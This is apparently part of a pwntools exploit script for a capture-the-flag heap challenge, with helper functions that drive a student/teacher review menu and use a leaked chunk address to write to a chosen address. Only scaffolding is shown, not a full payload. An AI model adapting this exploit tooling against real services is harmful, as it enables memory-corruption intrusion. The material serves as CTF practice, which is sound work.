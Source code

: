 ```
	sid = 0
	while True:
		s = io.recvuntil(b'\n', drop=True)
		if s == b'finish':
			break
		elif b'score' in s:
			sid = s[14] - 0x30
			scores[sid] = int(s[29:].decode(), 10)
		else:
			scores[sid] -= 10
			if scores[sid] < 0:
				scores[sid] += 256

def write_review(sid, size, comment, bytes=False, enter=True):
	assert(current_role == 0 and students[sid] == 1)
	io.sendlineafter(b'choice>> ', b'3')
	io.sendlineafter(b'which one? > ', str(sid).encode())
	if reviews[sid] is None:
		io.sendlineafter(b'please input the size of comment: ', str(size).encode())
	if enter:
		if not bytes:
			io.sendlineafter(b'enter your comment:', comment.encode())
		else:
			io.sendlineafter(b'enter your comment:', comment)
	else:
		if not bytes:
			io.sendafter(b'enter your comment:', comment.encode())
		else:
			io.sendafter(b'enter your comment:', comment)
	reviews[sid] = comment

def call_parent(sid):
	global student_num
	assert(current_role == 0 and students[sid] == 1)
	io.sendlineafter(b'choice>> ', b'4')
	io.sendlineafter(b'which student id to choose?', str(sid).encode())
	students[sid] = 2
	reviews[sid] = None
	student_num -= 1

def change_role(role):
	global current_role
	io.sendlineafter(b'choice>> ', b'5')
	io.sendlineafter(b'role: <0.teacher/1.student>: ', str(role).encode())
	current_role = role

def check_review(address, offset=True):
	assert(current_role == 1)
	io.sendlineafter(b'choice>> ', b'2')
	if io.recv(4) == b'Good':
		c = chunk_addr[current_sid] = int(io.recvuntil(b'add', drop=True)[-13:].decode(), 16)
		chunk_addr[current_sid] -= 0x10		
		io.sendlineafter(b'wherever you want! addr: ', str((c + address) * 10).encode())

def pray():
	assert(current_role == 1)
	io.sendlineafter(b'choice>> ', b'3')

def change_sid(sid):
	global current_sid
	assert(current_role == 1 and students[sid] != 0)
	io.sendlineafter(b'choice>> ', b'6')
	io.sendlineafter(b'input your id: ', str(sid).encode())
```
